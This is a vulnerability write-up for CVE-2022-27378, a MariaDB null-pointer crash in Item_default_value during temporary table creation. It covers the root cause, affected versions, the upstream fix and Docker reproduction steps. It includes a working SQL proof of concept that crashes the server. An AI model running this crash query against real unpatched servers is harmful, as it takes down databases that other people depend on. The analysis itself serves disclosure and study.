


# CVE-2022-27378 CWE-89 MariaDB DoS via Segmentation Fault

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.

## Vulnerability Mechanism
The `Item_default_value` class in MariaDB used to handle `DEFAULT()` expressions mistakenly returns an empty pointer (`nullptr`) as a temporary table field, causing the system to `Create_tmp_table::finalize()` later when executing queries like `SELECT DISTINCT DEFAULT(col)` that trigger temporary table construction and other components that access the field experience null pointer dereference, ultimately causing a crash. Attackers can exploit this vulnerability to cause denial of service (DoS).

## Vulnerability Location
Analysis of MariaDB 10.6.3:

In the sql\item.h file, in the definition of class `Item_default_value`, line **6654**, `get_tmp_table_field()` is used to generate the corresponding field (`Field*`) structure for an expression when creating a temporary table. `return 0` (i.e., `nullptr`) means this expression **does not support creating temporary table fields**, logically telling MariaDB that this expression cannot appear in temporary tables.

When MariaDB constructs a temporary table, it iterates over every `Item` node in SELECT. For `DEFAULT(col)` expressions, which are of type `Item_default_value`, MariaDB calls `get_tmp_table_field()` to get the temporary table fields. **But it returned `nullptr`**, indicating that the expression could not generate a temporary field. Subsequently, components like `Create_tmp_table::finalize()` continue to operate on the `Field*`, accessing or assigning `nullptr` members, causing **crash**.

`Item_default_value` should support creating temporary fields like other expressions, but in previous fixes for other vulnerabilities, developers added prohibition logic to prevent `DEFAULT()` from misusing it in certain nested or view scenarios, unaware that this would break `Item_default_value`'s behavior in the context of temporary tables, leaving exploitable crash flaws.

```cpp
// SQL \item.h file, line 6654
Field *get_tmp_table_field() override { return nullptr; }
```

## Remediation
Removed the prohibition on creating temporary `Item_default_value` fields, i.e., `*get_tmp_table_field` methods for vulnerability localization analysis. The goal is to restore default behavior, allowing temporary fields to be created for `Item_default_value`.

## Affected Versions
**Affected version:** MariaDB:

- 10.2.0 to 10.2.43
- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3
- 10.8.0 to 10.8.2

**Impact Component**: Create_tmp_table::finalize

## Environment Setup
Start the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, there is a database test_db, open port 3306, and the PoC file CVE-2022-27378-PoC.sql already exists in the container.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-27378-PoC.sql, and you will see that an error has been encountered and the container automatically closes

```sql
source CVE-2022-27378-PoC.sql
```


4. Check the MariaDB crash log, and you can see `[ERROR] mysqld got signal 11 ;` indicating that a Segmentation Fault (segment error) caused DoS. You can see the problem in the `Create_tmp_table::finalize` component and correspond to the vulnerability principle.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 (
  v1 DATE,
  v2 DATE DEFAULT(v1)
);

SELECT DISTINCT DEFAULT(v2) FROM t1;
```

`v2` is a column using `DEFAULT(v1)`, meaning the default value is derived from another column `v1`. When `DEFAULT(v2)` is used in the query statement and combined with `DISTINCT` operations, it triggers a temporary table build to eliminate duplicate rows.

`DEFAULT(v2)` When parsing, it generates an expression node of type `Item_default_value`. When executing `SELECT DISTINCT DEFAULT(v2)`, you need to create temporary table fields for `DEFAULT(v2)`, which will call `Item_default_value::get_tmp_table_field()`. But it returned `0`, indicating that creating temporary fields is not supported. Due to return `nullptr`, MariaDB experiences incomplete structures when creating temporary table structures. Attempting to use this field during subsequent access or finalize stages will **trigger null pointer dereference**, directly causing **service crash**.

## References
[NVD - CVE-2022-27378](https://nvd.nist.gov/vuln/detail/CVE-2022-27378)

[[MDEV-26423\] MariaDB server crash in Create_tmp_table::finalize - Jira](https://jira.mariadb.org/browse/MDEV-26423)

[MDEV-26423 MariaDB server crash in Create_tmp_table::finalize · MariaDB/server@e4e25d2](https://github.com/MariaDB/server/commit/e4e25d2bacc067417c35750f5f6c44cad10c81de)
